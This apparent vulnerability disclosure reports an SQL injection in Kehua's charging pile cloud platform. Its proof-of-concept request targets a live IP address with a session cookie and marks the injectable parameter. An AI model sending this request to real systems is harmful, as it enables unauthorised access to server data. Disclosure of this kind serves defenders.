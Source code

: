 There is an SQL injection vulnerability in the charging pile cloud platform of Kehua Data Co., Ltd., which can be exploited to obtain sensitive server information.

official：https://www.kehua.com.cn/

version:1.0

 Vulnerability Path  ： /sys/task/findAllTask

See the login page.

poc：
```
POST /sys/task/findAllTask HTTP/1.1
Host: 139.9.84.235:28080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Request-Ajax: 1
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://139.9.84.235:28080
Connection: close
Referer: http://139.9.84.235:28080/sys/task/toMain
Cookie: SESSION=cc80acb9-4057-47f1-b4a1-35acfa762996;	
X-Forwarded-For: 127.0.0.1

taskNameSelect=*&isEnableSelect=&_search=false&nd=1726716123695&pageSize=10&pageNo=1&sidx=&sord=asc

```
http://139.9.84.235:28080/doLogout
<img width="952" height="613" alt="image" src="https://github.com/user-attachments/assets/92b7917e-ab0f-4692-8300-4e825074563d" />

<img width="938" height="221" alt="image" src="https://github.com/user-attachments/assets/dd92e50d-cfd9-4400-8415-5be844f9e9e0" />


